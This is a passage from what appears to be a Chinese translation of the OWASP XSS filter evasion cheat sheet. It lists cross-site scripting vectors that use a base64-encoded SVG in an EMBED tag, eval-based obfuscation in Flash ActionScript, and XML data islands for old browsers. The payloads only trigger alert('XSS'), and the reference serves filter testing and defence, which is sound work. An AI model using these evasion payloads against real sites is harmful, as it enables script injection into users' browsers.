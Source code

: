 如果您添加属性`allowScriptAccess="never"`，`allownetworking="internal"`它可以减轻这种风险（感谢 Jonathan Vanasco 提供的信息）。

### 包含 XSS 向量的 EMBED SVG[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embed-svg-which-contains-xss-vector)

此示例仅适用于 Firefox，但它比 Firefox 中的上述向量更好，因为它不需要用户打开或安装 Flash。感谢 nEUROO 这个。

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

### 在 Flash 中使用 ActionScript 进行混淆[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#using-actionscript-inside-flash-for-obfuscation)

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")"; 
eval(a+b+c+d);
```

### 带有 CDATA 混淆的 XML 数据岛[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xml-data-island-with-cdata-obfuscation)

此 XSS 攻击仅适用于 IE 和 Netscape 8.1 的 IE 渲染引擎模式）- Sec Consult 在审计 Yahoo 时发现的向量：

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### 使用 XML 数据岛生成的具有嵌入式 JavaScript 的本地托管 XML[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#locally-hosted-xml-with-embedded-javascript-that-is-generated-using-an-xml-data-island)

这与上面相同，但它是指包含您的跨站点脚本向量的本地托管（必须在同一服务器上）XML 文件。你可以在这里看到结果：

```
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### XML 中的 HTML+TIME[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#htmltime-in-xml)
